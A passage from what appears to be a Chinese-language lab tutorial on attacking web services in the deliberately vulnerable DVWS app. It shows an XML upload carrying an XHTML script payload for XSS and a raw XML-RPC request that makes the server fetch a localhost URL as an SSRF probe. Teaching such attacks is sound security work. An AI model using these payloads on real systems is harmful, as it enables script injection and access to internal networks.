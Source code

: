 [![](assets/1705886707-618b3d46af902e8c134bab39fd5020e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120115906-4208cd98-b748-1.png)  
在这里我们还要扩展一个通过上传 XML 文件导致 XSS 的示例，构造如下带有 XHTML 的 XML 文件：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<xhtml:html xmlns:xhtml="http://www.w3.org/1999/xhtml">
<xhtml:script>
    alert(1)
    </xhtml:script>
</xhtml:html>
```

随后进行文件上传操作  
[![](assets/1705886707-c417a4dbd52dea735553c04dfed099a0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120115934-527a42b0-b748-1.png)  
[![](assets/1705886707-27da8206e83ce92b722d9f5b2070b7cb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120115941-56874ea2-b748-1.png)

### SSRF 攻击

服务器端请求伪造 (SSRF) 在 SOAP 中也比较常见，攻击者可以在该漏洞中生成将由应用程序启动的请求，然后可以利用这一点向第三方系统发出请求，例如：进行端口扫描、访问内网应用、进行文件读取等，某些 API 或 RPC 服务可能提供从其他 API/应用程序以 HTTP 请求参数的形式获取数据的功能，在这些情况下，我们可以利用 API 来执行端口扫描等操作，在 DVWS 应用程序的端口 9090 中可以使用 XML-RPC 服务，在 DVWS 节点应用程序中有关此 XML-RPC 服务使用的提示显示在的代码注释中[http://192.168.204.160/error.html](http://192.168.204.160/error.html) 这些信息也可以通过暴力强制找到[http://192.168.204.160:9090/xmlrpc](http://192.168.204.160:9090/xmlrpc) 服务器

```plain
POST /xmlrpc HTTP/1.1
Host: 192.168.204.160:9090
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4164.0 Safari/537.36 autochrome/red
Connection: close
Content-Length: 174
Content-Type: application/x-www-form-urlencoded

<?xml version="1.0"?><methodCall><methodName>dvws.CheckUptime</methodName><params><param><value><string>http://127.0.0.1/uptime</string></value></param></params></methodCall>
```
